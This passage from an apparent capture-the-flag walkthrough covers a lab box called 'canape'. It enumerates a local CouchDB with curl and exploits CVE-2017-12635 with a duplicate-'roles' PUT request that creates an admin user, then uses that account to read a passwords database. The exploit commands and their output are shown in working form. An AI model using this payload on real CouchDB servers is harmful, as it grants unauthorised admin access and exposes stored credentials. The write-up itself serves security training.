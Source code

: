     {"id":"f53679a526a868d44172c83a6100451b","key":"f53679a526a868d44172c83a6100451b","value":{"rev":"1-3f6141f3aba11da1d65ff0c13fe6fd39"}}
    ]}
    
    www-data@canape:/var/www/git$ curl http://localhost:5984/simpsons/f0042ac3dc4951b51f056467a1000dd9
    {"_id":"f0042ac3dc4951b51f056467a1000dd9","_rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329","character":"Homer","quote":"Doh!"}
    
    www-data@canape:/var/www/git$ curl http://localhost:5984/passwords
    {"error":"unauthorized","reason":"You are not authorized to access this db."}
    
    www-data@canape:/var/www/git$ curl http://localhost:5984/_users
    {"db_name":"_users","update_seq":"17-g1AAAAFTeJzLYWBg4MhgTmEQTM4vTc5ISXLIyU9OzMnILy7JAUoxJTIkyf___z8rkQGPoiQFIJlkD1bHiU-dA0hdPFgdMz51CSB19WB1jHjU5bEASYYGIAVUOp8YtQsgavcTo_YARO19_H6HqH0AUQt0L1MWAOGZbz8","sizes":{"file":103818,"external":4447,"active":7737},"purge_seq":0,"other":{"data_size":4447},"doc_del_count":1,"doc_count":9,"disk_size":103818,"disk_format_version":6,"data_size":7737,"compact_running":false,"instance_start_time":"0"}
    
    www-data@canape:/var/www/git$ curl http://localhost:5984/_users/_all_docs
    {"error":"unauthorized","reason":"You are not a server admin."}
    

#### DB Privesc

CVE-2017-12635 is a way for non-authenticated users to get an admin access in
couchdb by taking advantage of how Javascript and Erlang json parsers handle
duplicate objects. Reading on CVE-2017-12635:

  * https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
  * https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635

So, with CVE-2017-12635, to add an admin user, we just need to use an HTTP
PUT:

    
    
    www-data@canape:/var/www/git$ curl -X PUT -d '{"type":"user","name":"0xdf","roles":["_admin"],"roles":[],"password":"df"}' localhost:5984/_users/org.couchdb.user:0xdf -H "Content-Type:application/json"
    {"ok":true,"id":"org.couchdb.user:0xdf","rev":"1-72477c12e81d377e933683b8b73f9a86"}
    

Because we have a “roles” object in there twice, the CouchDB Javascript
validation will only see the second one (empty), but then Erlang json parser
will keep both, and let us be an admin.

#### Enumeration as admin

Now, we can use the creds for the added admin user to read the rest of the db:

    
    
    www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords
    {"db_name":"passwords","update_seq":"46-g1AAAAFTeJzLYWBg4MhgTmEQTM4vTc5ISXLIyU9OzMnILy7JAUoxJTIkyf___z8rkR2PoiQFIJlkD1bHik-dA0hdPGF1CSB19QTV5bEASYYGIAVUOp8YtQsgavcTo_YARO39rER8AQRR-wCiFuhetiwA7ytvXA","sizes":{"file":222462,"external":665,"active":1740},"purge_seq":0,"other":{"data_size":665},"doc_del_count":0,"doc_count":4,"disk_size":222462,"disk_format_version":6,"data_size":1740,"compact_running":false,"instance_start_time":"0"}
    